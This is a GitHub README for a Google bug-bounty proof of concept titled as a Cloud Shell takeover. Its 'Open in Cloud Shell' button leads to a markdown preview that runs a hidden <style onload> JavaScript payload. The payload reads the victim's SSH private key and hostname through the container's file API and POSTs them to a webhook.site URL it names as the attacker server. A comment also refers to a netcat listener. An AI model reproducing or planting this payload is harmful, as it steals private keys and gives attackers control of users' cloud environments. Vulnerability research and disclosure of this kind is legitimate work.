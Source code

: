 # Google VRP testing  
Google cloudshell instance take over (as root)

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?page=editor&cloudshell_git_repo=https:%2F%2Fgithub.com%2Fmagnetic-ferret%2Fta.git&cloudshell_open_in_editor=test2.md)

## Getting Started 
just need to preview this file to see the magic 
 
<style onload="{   
    var file_results = []  
    // this scape the container and get the ssh id_cloudshell private key
    read_file('file:///../id_cloudshell')          
    // getting the hostname (external connection)
    read_file('file:///etc/hostname')      
         
    setTimeout(function(){ 
        send_files(file_results)    
    },5000)  
 
    // function to read any file given the path with file protocol per example 'file:///etc/hostname'
    function read_file(file_to_read){
        var container_url = 'https://' + location.host + '/files/?uri='
        var get_file_id_url = container_url + file_to_read
        console.log(get_file_id_url) 
        fetch(get_file_id_url) // convert response to json 
            .then(response => { return response.json() } )
            .then(json => {
                var container_download_url = 'https://' + location.host + '/files/download/?id='
                var download_url = container_download_url + json.id
                fetch(download_url) 
                    .then(response => { return response.text() } )
                    .then(text => { 
                        console.log(file_to_read + ' '+ text)
                        file_results.push(file_to_read + ' '+ text)  
                    })
            })  
    }
 
    function send_files(result){ 
         // need to set netcat to listen per example nc -lvvv 55555
         let attacker_server =  '  https://webhook.site/8714cbf4-0235-49e8-9ecb-6cc153712f85'
         fetch(attacker_server, {
                method: 'post',
                body: JSON.stringify(result)
         })
    }
 
}"> 
  
 
